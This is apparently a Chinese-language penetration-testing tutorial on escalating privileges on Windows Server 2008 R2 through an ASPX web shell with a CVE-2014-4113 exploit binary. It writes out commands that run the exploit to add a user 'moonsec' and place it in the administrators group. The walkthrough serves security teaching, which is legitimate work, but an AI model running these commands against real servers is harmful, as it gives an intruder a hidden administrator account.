





## 1、简介

在winserver2008 r2 中 服务器默认是支持aspx的。所以默认都是可以执行一些命令。

如果没有进行补丁修复可以利用一些溢出提权工具,进行提权。

## 2、CVE-2014-4113-Exploit

这个版本的提权工具 可以对winserver2008 的系统进行溢出提权

## 3、实战

http://www.demo1.com/asp.aspx

 

systeminfo 这个命令查看系统信息



上传文件，可以看到溢出成功

 

如果找不到可写目录 可以 使用遍历可写目录的脚本进行查找 

 

增加用户

```bash
/c C:\inetpub\wwwroot\www.demo1.com\Win64.exe "net user moonsec moonsec /add"
```

增加到用户组

```bash
/c C:\inetpub\wwwroot\www.demo1.com\Win64.exe "net localgroup administrators moonsec /add"
```

 